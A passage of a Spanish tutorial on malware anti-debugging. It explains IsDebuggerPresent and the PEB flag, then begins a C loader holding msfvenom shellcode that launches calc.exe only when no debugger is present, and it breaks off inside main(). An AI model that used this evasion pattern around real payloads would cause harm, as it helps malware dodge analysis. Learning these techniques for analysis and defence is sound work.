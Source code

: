 Las tecnicas anti debug se usan para evadir los depuradores como OllyDbg, x64dbg, windbg, etc, esto con el fin para que el malware evite ser analizado en un depurador.

La tecnias ma simple que pueda existir es usar la funcion ```IsDebuggerPresent```, lo que hace esta funcion es determinar si una aplicacion esta siendo ejecutada en un depurador o no para que pueda modificar su comportamiento, por detras lo que hace la funcion es checar la flag ```BeingDebugged``` esta activa, esta flag se encuentra en ```Process Environment Block(PEB)```:

```c
typedef struct _PEB{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    
    ...
}
```

la sintaxis es:

```c
BOOL IsDebuggerPresent();
```
Y la podemos aplicar de esta forma

```c
if (IsDebuggerPresent()){ 
	//si se encuentra en un depurador podemos realizar otro comportamiento que parezca inofensivo
}else{
    // si no, podemos ejecutar lo que queremos, en este caso, la shellcode
}
```

Una vez sabiendo como funcionan ambas cosas, este es codigo completo en C

```c
#include <stdio.h>
#include <windows.h>

// shellcode: msfvenom -p windows/x64/exec CMD=calc.exe -f c

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){	

		
	if (IsDebuggerPresent()){ 
```